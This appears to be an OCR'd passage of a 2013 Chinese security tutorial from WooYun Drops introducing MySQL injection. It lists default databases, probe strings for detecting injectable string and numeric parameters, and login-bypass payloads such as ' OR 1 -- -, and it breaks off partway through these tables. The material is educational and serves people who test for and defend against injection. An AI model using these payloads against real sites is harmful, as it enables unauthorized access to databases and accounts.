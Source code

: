 # MySql 注入科普 ![](img/img1_u143_png.jpg)

2013/05/24 2:11 | [瞌睡龙](http://drops.wooyun.org/author/瞌睡龙 "由 瞌睡龙 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

### 默认存在的数据库：

|       mysql      |       需要 root 权限读取      |
|       information_schema      |       在 5 以上的版本中存在      |

### 测试是否存在注入方法

假：表示查询是错误的 (MySQL 报错/返回页面与原来不同)

真：表示查询是正常的 (返回页面与原来相同)

共三种情况：

|       字符串类型查询时：      |       数字类型查询时：      |       登陆时：      |
|  

&#124;             '            &#124;             假            &#124;
&#124;             ''            &#124;             真            &#124;
&#124;             "            &#124;             假            &#124;
&#124;             ""            &#124;             真            &#124;
&#124;             \            &#124;             假            &#124;
&#124;             \\            &#124;             真            &#124;

 |  

&#124;             AND 1            &#124;             真            &#124;
&#124;             AND 0            &#124;             假            &#124;
&#124;             AND true            &#124;             真            &#124;
&#124;             AND false            &#124;             假            &#124;
&#124;             1-false            &#124;             有问题时返回 1 的结果            &#124;
&#124;             1-true            &#124;             有问题时返回 0 的结果            &#124;
&#124;             2-1            &#124;             返回与 1 相同代表可能存在问题            &#124;
&#124;             1*56            &#124;             返回与 56 相同代表可能存在问题            &#124;
&#124;             1*56            &#124;             返回与 1 相同代表没有问题            &#124;

 |  

&#124;             ' OR '1            &#124;
&#124;             ' OR 1 -- -            &#124;
&#124;             " OR "" = "            &#124;
&#124;             " OR 1 = 1 -- -            &#124;
&#124;             '='            &#124;
&#124;             'LIKE'            &#124;
&#124;             '=0--+            &#124;
